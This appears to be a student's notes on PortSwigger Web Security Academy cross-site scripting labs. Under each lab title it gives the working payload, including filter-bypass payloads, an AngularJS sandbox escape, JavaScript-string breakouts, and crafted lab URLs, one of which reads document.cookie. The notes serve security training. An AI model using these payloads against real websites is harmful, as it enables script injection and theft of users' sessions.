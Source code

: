 ____

# DOM XSS in `document.write` sink using source `location.search` inside a select element

```html
"></select><img src=1 onerror=alert(1)>
```

![[Pasted image 20240804162601.png]]

```html
test</select><img src=1 onerror=alert(1)>
```

# DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded

`ng-app`

```js
{{$on.constructor('alert(1)')()}}
```

# Reflected DOM XSS

The application may be vulnerable to DOM-based JavaScript injection. Data is read from **location.search** and passed to **eval**.

```js
\"-alert()}//
```

Here's the step-by-step breakdown of why this works:

1. **Escape the JSON Context**: The `\"` escapes the JSON string.
2. **Inject Code**: `-alert()` gets injected and executed.
3. **Comment Out**: `}//` comments out the rest to prevent any syntax errors from the remaining code.

# Stored DOM XSS

> Function replaces first angle brakets only:

```js
 function escapeHTML(html) {
        return html.replace('<', '&lt;').replace('>', '&gt;');
    }
```

```js
<><img src=1 onerror=alert(1)>
```

# Reflected XSS into HTML context with most tags and attributes blocked

"Tag is not allowed"

https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

Copy tags to clipboard

![[Pasted image 20240806115813.png]]

Status 200 --> body

"Attribute is not allowed"

Copy events to clipboard

![[Pasted image 20240806120249.png]]

```js
<body onresize="print()">
```

```js
<iframe src="https://0aff0012036c406f80a92664002500fa.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
```


# Reflected XSS into HTML context with all tags blocked except custom ones

```html
<xss id=x onfocus=alert(document.cookie) tabindex=1>#x
```

```
https://0a21007b032e40bc807f498000a7008a.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert(document.cookie)+tabindex%3D1%3E#x
```

```html
<script>
location = 'https://0a21007b032e40bc807f498000a7008a.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29+tabindex%3D1%3E#x';
</script>
```

# Reflected XSS with some SVG markup allowed

![[Pasted image 20240807114732.png]]

```js
<svg><animatetransform onbegin=alert(1) attributeName=transform>
```

# Reflected XSS in canonical link tag

```html
<link rel="canonical" href='https://0a27005e04da85618195de30000a0031.web-security-academy.net/?feq46jyh'/>
```

![[Pasted image 20240807120853.png]]

```js
?'accesskey='x'onclick='alert(1)
```

# Reflected XSS into a JavaScript string with single quote and backslash escaped

Single quote gets backslash-escaped, preventing you from breaking out of the string.

```html
</script><script>alert(1)</script>
```


# Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped

The value of the **search** request parameter is copied into a JavaScript string which is encapsulated in single quotation marks. 

```js
\';alert(1)//
```

![[Pasted image 20240808045534.png]]



# Stored XSS into `onclick` event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped

```
http://foo?&apos;-alert(1)-&apos;
```